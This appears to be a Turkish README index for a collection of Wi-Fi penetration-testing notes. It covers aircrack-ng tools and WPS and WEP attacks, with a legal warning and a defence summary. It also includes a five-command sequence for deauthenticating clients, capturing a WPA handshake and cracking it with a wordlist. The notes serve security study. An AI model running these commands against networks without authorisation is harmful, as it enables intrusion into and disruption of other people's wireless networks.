

# Wi-Fi Hackleme

> 📚 [Ana Sayfa](../Siber_G%C3%BCvenlik_Ana_Sayfa.md)

> [!NOTE]
> **Bu klasör**
> Kablosuz ağ (Wi-Fi) güvenliği ve sızma testi notları. Sıralama **öğrenme sırasını** izler: önce protokoller ve donanım, sonra araçlar, sonra WPS ve WEP saldırıları.

> [!WARNING]
> **Yasal uyarı**
> Buradaki teknikler yalnızca **kendi laboratuvar ağında veya yazılı izin alınmış ortamlarda** uygulanmalıdır.

## Yol haritası



## Notlar

### Temeller

| Not | İçerik |
|---|---|
| [Wi-Fi Güvenlik Protokolleri ve Sızma Testi Temelleri](01_Wi-Fi_G%C3%BCvenlik_Protokolleri.md) | WEP/WPA/WPA2/WPA3 karşılaştırması, sızma testinin 4 bileşeni |
| [Wi-Fi Kimlik Doğrulama Yöntemleri](02_Wi-Fi_Kimlik_Do%C4%9Frulama_Y%C3%B6ntemleri.md) | Open, Shared Key, 4-way handshake, SAE |
| [802.11 Çerçeveleri ve Bağlantı Döngüsü](03_802.11_%C3%87er%C3%A7eveleri_ve_Ba%C4%9Flant%C4%B1_D%C3%B6ng%C3%BCs%C3%BC.md) | Beacon, Probe, Auth, Assoc, EAPOL, Deauth ve Wireshark filtreleri |

### Donanım ve hazırlık

| Not | İçerik |
|---|---|
| [Wi-Fi Arayüzleri ve Yapılandırma](04_Wi-Fi_Aray%C3%BCzleri_ve_Yap%C4%B1land%C4%B1rma.md) | Doğru kart seçimi, TX power, bölge kodu, kanal/frekans |
| [Wi-Fi Çalışma Modları](05_Wi-Fi_%C3%87al%C4%B1%C5%9Fma_Modlar%C4%B1.md) | Managed, Monitor, Master, Ad-Hoc, Mesh |

### Aircrack-ng araç seti

| Not | İçerik |
|---|---|
| [Aircrack-ng Genel Bakış](06_Aircrack-ng_Genel_Bak%C4%B1%C5%9F.md) | Araçlara genel bakış ve saldırı akışı |
| [Airmon-ng](06.1_Airmon-ng.md) | Monitor mod yönetimi |
| [Airodump-ng](06.2_Airodump-ng.md) | Keşif ve paket yakalama |
| [Airgraph-ng](06.3_Airgraph-ng.md) | CAPR / CPG grafikleri |
| [Aireplay-ng](06.4_Aireplay-ng.md) | Deauth, injection, trafik üretimi |
| [Airdecap-ng](06.5_Airdecap-ng.md) | Şifreli trafiği çözme |
| [Aircrack-ng ile Parola Kırma](06.6_Aircrack-ng_Parola_K%C4%B1rma.md) | WEP/WPA/WPA2 parola kırma |

### WPS saldırıları

| Not | İçerik |
|---|---|
| [WPS Temelleri ve Zafiyeti](07_WPS_Temelleri_ve_Zafiyeti.md) | WPS nasıl çalışır, neden 11.000 PIN |
| [WPS Keşif ve Tarama](07.1_WPS_Ke%C5%9Fif_ve_Tarama.md) | wash / airodump --wps ile keşif |
| [WPS Online PIN Brute-Force](07.2_WPS_Online_PIN_Brute-Force.md) | Reaver, WPSPin, PIN üreticiler |
| [WPS Pixie Dust](07.3_WPS_Pixie_Dust.md) | Offline PIN kırma |
| [WPS PBC Saldırısı](07.4_WPS_PBC_Sald%C4%B1r%C4%B1s%C4%B1.md) | Buton modu |
| [MDK4 ile WPS Kilidi / DoS](07.5_MDK4_ile_WPS_Kilidi_DoS.md) | Kilidi aşmak için DoS |

### WEP saldırıları

| Not | İçerik |
|---|---|
| [WEP Zafiyetleri ve RC4](08_WEP_Zafiyetleri_ve_RC4.md) | RC4, IV, CRC32 ve saldırı seçim tablosu |
| [WEP ARP Request Replay](08.1_WEP_ARP_Request_Replay.md) | Klasik hızlı yöntem |
| [WEP KoreK Chop Chop](08.2_WEP_KoreK_Chop_Chop.md) | Keystream elde etme |
| [WEP Cafe Latte](08.3_WEP_Cafe_Latte.md) | İstemciye yönelik saldırı |
| [WEP İstemcisiz Saldırı](08.4_WEP_%C4%B0stemcisiz_Sald%C4%B1r%C4%B1.md) | Fake auth + packetforge |
| [WEP Ek Yöntemler ve Bruteforce](08.5_WEP_Ek_Y%C3%B6ntemler_ve_Bruteforce.md) | KoreK ve sözlük saldırısı |

## Hızlı komut akışı (WPA/WPA2-PSK)

```bash
sudo airmon-ng check kill && sudo airmon-ng start wlan0      # 1. monitor mod
sudo airodump-ng wlan0mon                                      # 2. hedefi bul (BSSID, CH)
sudo airodump-ng -c <CH> --bssid <BSSID> -w hedef wlan0mon     # 3. sadece hedefi kaydet
sudo aireplay-ng -0 5 -a <BSSID> -c <CLIENT> wlan0mon          # 4. deauth, handshake yakala
aircrack-ng hedef-01.cap -w /opt/wordlist.txt                  # 5. sözlükle kır
```

Ayrıntılar: [06.1_Airmon-ng](06.1_Airmon-ng.md), [06.2_Airodump-ng](06.2_Airodump-ng.md), [06.4_Aireplay-ng](06.4_Aireplay-ng.md), [06.6_Aircrack-ng_Parola_Kırma](06.6_Aircrack-ng_Parola_K%C4%B1rma.md).

## Savunma özeti
- **WPA3** (veya en az WPA2-AES) kullan, **WEP/TKIP** kullanma.
- **WPS'i kapat.**
- Uzun, rastgele bir parola seç (sözlükte olmasın).
- Mümkünse **PMF (802.11w)** aç.
- Router firmware'ini güncel tut.
